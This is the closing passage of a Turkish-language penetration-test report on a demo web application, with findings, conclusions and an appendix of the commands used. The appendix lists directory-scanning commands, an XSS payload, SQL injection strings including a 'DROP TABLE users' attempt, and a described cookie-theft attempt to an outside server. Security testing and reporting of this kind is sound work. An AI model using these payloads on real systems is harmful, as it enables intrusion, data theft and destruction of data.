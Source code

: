 ### 6.8 Korunmasız Dizin (`/statics/`)

- **Etki**: Yetkisiz kullanıcılara hassas kaynakların ifşası.
- **Öneriler**:
  - Dizin indeksleme kontrolleri ile `/statics/` erişimini reddedecek şekilde sunucuyu yapılandırın.
  - Yetkisiz dizin erişimini kısıtlamak için uygun oturum yönetimi uygulayın. 

### Not
  - **TestCookie**: Sayfa üzerinde belli bir süre bulunduktan sonra TestCookie:Hello şeklinde bir cookie daha ekleniyor.


---

## 7. Genel Değerlendirme ve Sonuç

### 7.1 Genel Güvenlik Durumu

`http://aspnet.testsparker.com/` adresindeki web uygulaması, SSL/TLS eksikliği, stored XSS, Error-Based SQL Injection, hassas veritabanı dosyası ifşası ve IIS hata mesajları yoluyla dizin ifşası gibi kritik güvenlik açıkları sergilemekte olup, kullanıcı verileri ve sistem bütünlüğü için ciddi riskler taşımaktadır. Orta önemdeki sorunlar (açıkta kalan dizinler ve hassas dosya ifşası), güvenlik duruşunu daha da zayıflatmaktadır. Viewstate, login sayfasında SQL Injection ve GuestbookList.aspx üzerinde cookie çalma denemelerinde güvenlik açığı bulunmaması olumlu bir durumdur, ancak diğer kritik sorunların giderilmesi için önlem alınması gerekmektedir.

### 7.2 Sonuç

Sızma testi, dikkat edilmediği takdirde ciddi sonuçlara yol açabilecek birden fazla istismar edilebilir güvenlik açığını ortaya koymuştur. Önerilen düzeltmelerin uygulanmasıyla, bu proje web uygulamasının güvenliğini önemli ölçüde iyileştirebilir ve hassas verileri koruyabilir.

*Bu sızma testi sırasında zaman ve kapsam sınırlamaları nedeniyle derinlemesine analiz yapamasam da, sistemdeki potansiyel giriş noktalarını başarıyla tespit ettim ve olası saldırı yüzeylerine dair genel bir farkındalık kazandım.*

---

## 8. Ek Bilgiler

### 8.1 Kullanılan Komutlar ve Payload’lar

- **Nmap**: `nmap -sV -T4 aspnet.testsparker.com`
- **Gobuster**: `gobuster dir -u http://aspnet.testsparker.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x aspx,bak,config,txt`
- **Ffuf**: `ffuf -u http://aspnet.testsparker.com/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt -e .aspx -fc 403,404 -t 50`
- **Strings**: `strings data.mdb`
- **XSS Payload**: `<svg><script>confirm(1)</script></svg>`
- **SQL Injection Payload’lar**:
  - `http://aspnet.testsparker.com/Products.aspx?pId=asd`
  - `http://aspnet.testsparker.com/Products.aspx?pId=user`
  - `http://aspnet.testsparker.com/Products.aspx?pId=2' OR 1=1--`
  - `http://aspnet.testsparker.com/Products.aspx?pId=4'+convert(int,(SELECT @@version))--`
  - Login sayfasında: `' OR '1'='1`, `1; DROP TABLE users --` (başarısız)
- **Cookie Çalma Denemesi**: Azure sunucusu (`http://4.xxx.xxx.171:8000`) üzerinde Python HTTP sunucusu ile document.cookie çalma (başarısız)

### 8.3 İletişim Bilgileri

Daha fazla ayrıntı ve iletişim için: [Berk Ali Erçelik](https://github.com/berkercelik)